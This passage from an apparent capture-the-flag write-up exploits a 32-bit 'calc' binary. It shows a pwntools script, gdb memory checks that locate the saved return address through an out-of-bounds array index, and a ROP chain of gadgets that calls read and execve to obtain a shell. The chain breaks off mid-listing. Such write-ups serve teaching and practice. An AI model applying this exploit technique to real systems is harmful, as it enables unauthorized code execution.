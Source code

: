 ![calculate-offset.png](images/calculate-offset.png)

We found the offset is `0x171`. Let's check that with just a simple script as follows:

```python
from pwn import *

context.binary = exe = ELF('./calc', checksec=False)
context.log_level = 'debug'

p = process(exe.path)
p.recvline()

input(str(p.pid))
eip = 0x171
payload = f'+{eip}+{0x500}'.encode()
p.sendline(payload)

p.interactive()
```

![check-offset.png](images/check-offset.png)

The highlighted address is address of `pool`. The address above `pool` is our expression. Let's check that:

```gdb
gef➤  # x/2xw <saved ebp of main>
gef➤  x/2xw 0xffc2dc88
0xffc2dc88:	0x08049c30	0x0804967a

gef➤  x/2xw 0xffc2d6c8 + 369*4 + 4
0xffc2dc90:	0x00000001	0xffc2dd14
```

We can see that saved eip of main is at `0xffc2dc88 + 4 = 0xffc2dc8c` but `pool[0x171]` points after saved eip. The correct offset now change to `0x170`.

We have everything now, let's write a simple payload as following:

```python
eip = 0x170
rw_section = 0x80eba00
pop_eax = 0x0805c34b
pop_ecx_ebx = 0x080701d1
pop_edx = 0x080701aa
int_80_ret = 0x0807087e

payload_list = [
	# read(0, rw_section, 0x200)
	pop_eax, 3,
	pop_ecx_ebx, rw_section, 0,
	pop_edx, 0x200,
	int_80_ret,
	pop_eax, 0xb,
	pop_ecx_ebx, 0, rw_section,
```